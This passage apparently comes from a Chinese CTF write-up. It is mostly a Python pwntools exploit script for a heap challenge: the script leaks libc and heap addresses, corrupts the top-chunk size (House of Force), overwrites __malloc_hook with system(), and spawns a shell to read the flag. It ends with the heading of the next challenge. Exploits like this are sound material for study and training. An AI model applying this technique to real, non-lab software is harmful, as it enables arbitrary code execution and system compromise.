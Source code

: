 ```
    if stop :
        raw_input()

if __name__ == "__main__":
    sh = get_sh()
    sh.recvuntil('2:puts')
    sh.sendline('1')
    sh.recvuntil('size')
    sh.sendline(str(0x100000))
    libc_base = get_address(sh,'We get libc base address is ','bin addr 0x','n',-0x4D2010,True)
    sh.sendline('Chunk0')

    sh.recvuntil('2:puts')
    sh.sendline('1')
    sh.recvuntil('size')
    sh.sendline(str(0x20))
    heap_base = get_address(sh,'We get heap base address is ','bin addr 0x','n',-0x10,True)
    sh.sendline(p64(0) * 5 + p64(0xFFFFFFFFFFFFFFFF))

    sh.recvuntil('2:puts')
    sh.sendline('1')
    sh.recvuntil('size')
    sh.sendline(str(libc_base + libc.symbols['__malloc_hook'] - heap_base - 0x50))
    sh.recvuntil('content')
    sh.sendline('Anyvalue')

    sh.recvuntil('2:puts')
    sh.sendline('1')
    sh.recvuntil('size')
    sh.sendline(str(0x10))
    sh.recvuntil('content')
    sh.sendline(p64(libc_base + libc.symbols['system']))

    sh.recvuntil('2:puts')
    sh.sendline('1')
    sh.recvuntil('size')
    sh.sendline(str(libc_base + libc.search('/bin/sh').next()))

    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```



## 0x04 FirstDay_doucument

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-061256.png)
